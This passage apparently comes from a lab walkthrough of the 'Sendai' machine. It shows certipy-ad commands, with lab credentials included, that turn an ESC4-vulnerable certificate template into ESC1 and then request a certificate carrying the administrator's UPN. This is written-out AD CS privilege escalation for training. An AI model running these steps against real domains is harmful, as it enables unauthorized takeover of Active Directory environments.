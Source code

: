 ![image.png](../images/sendai%2029.png)

> Notice that we found ESC 4 vulnerable template
> 

Now let’s first make the certificate vulnerable to ESC1

```bash
certipy-ad template -u clifford.davey -p RFmoB2WplgE_3p -template SendaiComputer -dc-ip 10.10.109.249 -save-old
```

![image.png](../images/sendai%2030.png)

Now let’s request the CA and change the UPN to the administrator UPN

```bash
certipy-ad req -ca 'sendai-DC-CA' -dc-ip '10.10.109.249' -u 'clifford.davey' -p 'RFmoB2WplgE_3p' -template 'SendaiComputer' -target 'dc.sendai.vl' -upn 'administrator@sendai.vl'
```

![image.png](../images/sendai%2031.png)
